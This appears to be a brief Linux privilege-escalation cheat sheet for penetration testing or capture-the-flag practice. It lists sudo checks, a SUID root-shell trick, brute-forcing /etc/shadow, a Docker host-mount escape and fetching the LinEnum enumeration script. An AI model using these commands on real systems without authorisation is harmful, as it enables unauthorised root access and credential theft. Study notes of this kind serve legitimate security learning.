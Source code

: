 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				/etc/shadow
can you read /etc/shadow? Try brute force
				
				Writeable /etc/shadow
ls -l /etc/shadow			checking i

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/